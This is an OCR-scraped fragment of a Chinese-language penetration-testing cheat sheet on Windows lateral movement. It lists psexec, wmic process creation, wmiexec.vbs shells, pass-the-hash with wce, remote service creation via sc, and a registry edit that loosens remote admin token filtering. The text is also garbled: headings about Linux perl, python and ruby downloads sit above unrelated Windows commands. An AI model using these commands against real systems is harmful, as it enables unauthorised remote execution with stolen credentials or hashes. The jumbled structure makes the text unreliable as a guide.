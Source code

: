 ```
psexec.exe \\\\ip –accepteula -u username -p password program.exe
```

6、hta 保存为. hta 文件后运行

```
\-c <\[路径\]文件名>:拷贝文件到远程机器并运行（注意：运行结束后文件会自动删除）
-d 不等待程序执行完就返回
比如想上传一个本地的getpass到你远程连接的服务器上去:
Psexec.exe \\\\ip –u user –p pass –c c:\\getpass.exe –d
```

```
copy 1.bat \\\\host\\c$\\windows\\temp\\1.bat

wmic /node:ip /user:test /password:testtest process call create c:\\windows\\temp\\1.bat
```

**linux 下文件传输** 

1、perl 脚本文件下载 kali 下测试成功，centos5.5 下，由于没有 LWP::Simple 这个，导致下载失败

```
1、半交互模式
cscript.exe //nologo wmiexec.vbs /shell ip username password
2、单命令执行
cscript.exe wmiexec.vbs /cmd ip username password "command"
3、wce\_hash注入
如果抓取的LM hash是AAD3开头的，或者是No Password之类的，就用32个0代替LM hash
wce -s hash
cscript.exe //nologo wmiexec.vbs /shell ip
```

```
cmd /c reg add HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Policies\\system /v LocalAccountTokenFilterPolicy /t REG\_DWORD /d 1 /f
```

2、python 文件下载

```
test.exe ip user pass command sharename
```

```
https://github.com/samratashok/nishang/blob/5da8e915fcd56fc76fc16110083948e106486af0/Shells/Invoke-PowerShellWmi.ps1
```

3、ruby 文件下载 centos5.5 没有 ruby 环境

```
1、系统权限(其中test为服务名)
sc \\\\DC1 create test binpath= c:\\cmd.exe
sc \\\\DC1 start test
sc \\\\DC1 delete test

2.指定用户权限启动
sc \\\\DC1 create test binpath = "c:\\1.exe" obj= "centoso\\administrator" passwrod= test
sc \\\\DC1 start test
```
